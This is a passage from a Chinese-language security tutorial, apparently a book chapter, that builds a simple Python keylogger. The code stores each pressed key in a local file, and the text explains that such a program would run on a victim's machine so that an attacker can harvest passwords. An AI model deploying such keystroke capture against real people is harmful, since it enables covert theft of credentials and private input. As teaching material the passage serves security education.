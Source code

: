     图 7.8 – 打印按下的键

    在这张截图中，我们打印了执行程序时按下的键。当我们按下*Esc*键时，程序退出了。这就是一个非常基础的键盘记录器的全部内容。然而，在实际情况下，你会在受害者的机器上运行这个程序，因此仅仅在控制台打印是没有多大用处的。理想情况下，我们希望保留这些按键记录的日志。很多键盘记录器会将按键记录存储到文件中，黑客可以从中查看是否输入了任何密码或其他敏感信息。

1.  现在我们将对我们的键盘记录器进行一些更改，使其更有用。让我们创建一个新的文件名，`keylogs.txt`。

    我们将把日志存储在这个文件中。让我们来看一下代码：

    import sys

    filename = "keylogs.txt"

    file = open(filename, "w")

    def onPress(key):

    print(str(key))

    file.write(str(key))

    def onRelease(key):

    if str(key) == 'Key.esc':

    file.close()

    sys.exit(0)

    在这里，我们创建了一个写入模式的文件，每次按下一个键时，我们都会将该键存储到文件中。最后，当按下*Esc*键时，我们关闭文件并退出。如果你启动并运行程序，按下几个键，你会看到创建了一个新文件，所有的按键记录都存储在该文件内。以下是我执行此操作的结果：

    ![图 7.9 – 文件中存储的按键记录    ](img/B14788_07_09.jpg)
